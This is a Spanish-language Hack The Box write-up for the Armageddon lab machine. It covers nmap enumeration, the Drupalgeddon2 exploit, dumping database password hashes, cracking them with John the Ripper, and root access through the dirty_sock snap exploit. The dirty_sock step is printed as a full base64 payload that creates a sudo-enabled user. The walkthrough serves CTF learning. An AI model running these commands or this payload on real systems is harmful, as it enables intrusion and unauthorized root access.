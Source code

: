```yaml
---
title: "HTB - Armagedon"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/armeggedon.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | bertolis
Dificultad | Fácil
Liberación | 27 Marzo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.10.233 solo encontramos que está abierto el 80
(web)

```
# Nmap 7.91 scan initiated Sun May 16 20:18:43 2021 as: nmap -p 22,80 -sSC -oN Nmap.txt
10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.23s latency).
PORT STATE SERVICE
22/tcp open ssh
| ssh-hostkey:
|  2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|  256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_ 256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open http
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Armageddon | Armageddon
# Nmap done at Sun May 16 20:18:52 2021 -- 1 IP address (1 host up) scanned in 9.00 seconds
```

Empezamos a hacer reconocimiento de la web con whatsweb y nos damos cuenta que es un
drupal, y con ayuda de robots.txt podemos ver el CHANGELOG.txt nos damos cuenta que es un drupal
v. 7.58.

Con searchxploit nos damos cuenta que hay un exploit en Metasploit llamado
**exploit/unix/webapp/drupal_drupalgeddon2** que nos permite obtener la 1° shell

![]()

## 1° Shell

Revisamos la carpeta sites y de ahí se busca los datos de la conexión a la base de datos que se
encuentra en /var/www/html/sites/default/settings.php y vemos que son usuario drupaluser y
password CQHEy@9M*m23gBVj, el problema es que tenemos una shell muy básica por lo que nos
obliga a usar el siguiente script para enumerar la BD.

```
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

Para así obtener los datos de *brucetherealadmin* y obtener el hash de su clave. Con la
ayuda de john the ripper y utilizando el diccionario rockyou obtenemos la clave booboo.

```
[brucetherealadmin@armageddon ~]$ john pass --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)

[brucetherealadmin@armageddon ~]$ john pass —show
?:booboo

1 password hash cracked, 0 left
```

## Shell Usuario

Con la clave obtenida podemos ingresar mediante ssh. Una vez adentro podemos leer la flag de
usuario.

Lo primero que debemos ver es si tenemos algun permiso de sudoer con sudo -l, y nos damos
cuenta que tenemos permiso para /usr/bin/snap install *, por lo que buscamos si tenemos alguna
forma de escalar privilegios.

Investigando vemos que podemos crear nuestra propia aplicación snap usando el proyecto
disrty_socket, lo que generará un usuario con escalada de privilegios locales.

```
[brucetherealadmin@armageddon ~]$ python -c "print
('aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAA
AAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1
daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3
Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc2
9jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHkt
c29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOi
AnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFt
ZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP
8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET
/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8
BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZ
ecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAA
AAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'+ 'A' * 4256
+ '==')" | base64 -d > racso.snap
sudo snap install racso.snap —devmode
```

## Root Shell

Con el usuario dirty_socket creado (dirty_sock:dirty_sock) utilizamos sudo su para acceder
como root y obtener la flag.

```
[brucetherealadmin@armageddon ~]$ su dirty_sock
Contraseña:
[dirty_sock@armageddon brucetherealadmin]$ sudo su
[root@armageddon brucetherealadmin]#
````

![Racso](https://www.hackthebox.com/badge/image/159593)
